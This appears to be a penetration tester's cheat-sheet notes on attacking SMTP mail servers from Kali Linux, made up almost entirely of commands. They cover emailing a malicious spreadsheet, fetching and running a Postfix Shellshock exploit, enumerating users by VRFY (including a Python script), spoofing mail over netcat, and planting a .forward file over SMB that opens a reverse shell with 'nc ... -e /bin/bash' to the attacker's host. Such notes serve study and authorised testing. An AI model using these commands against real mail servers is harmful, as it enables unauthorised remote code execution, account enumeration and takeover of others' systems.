 #### send email with sendemail
```bash - kali
sendemail -f 'jonas@localhost' \
   -t 'mailadmin@localhost' \
   -s $TARGET:25 \
   -u 'Your spreadsheet' \
   -m 'Here is your requested spreadsheet' \
   -a bomb.ods
```

#### Postfix SMTP Linux Shellshock RCE - USERNAME NEEDED
```bash - kali
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

![[rlwrap]]

```bash - kali
python postfix-shellshock-nc.py $TARGET $USER $KALI 443
```

#### User enumeration tool
```bash - kali
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $TARGET | grep exists | awk '{print $2}' > users
```

#### nmap
```bash - kali
nmap --script smtp-commands.nse -pT:25 $TARGET
```

#### Mail forward RCE
Found a .forward file in user's directory by SMB.

```bash - kali
echo "|nc $KALI 443 -e /bin/bash" > .forward
```

![[rlwrap]]

```bash - kali
smbclient \\\\$TARGET\\$SHARE -U "$USER%$PASWORD"
```

```bash - kali
put .forward
```

```bash - kali
exit
```

#### Send mail with netcat
```bash - kali
nc $TARGET 25
```

```bash - kali
HELO hacker
```

```bash - kali
mail from:HACKER@localhost
```
OR
```bash - kali
mail from:HACKER@example.org
```

```bash - kali
rcpt to:$USER@$TARGET
```

```bash - kali
DATA
```

Insert email body

```bash - kali
.
```

```bash - kali
QUIT
```


#### User verification script

```bash - kali
VRFY root
```

```bash - kali
VRFY idontexist
```

![[Pasted image 20220406195439.png]]

```bash - kali
#!/usr/bin/python3

import socket
import sys

if len(sys.argv) != 2:

	print("Usage: vrfy.py <username>")
	sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect = s.connect(("$TARGET",25))

# Receive the banner
banner = s.recv(1024)
print(banner)

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)
print(result)

# Close the socket
s.close
```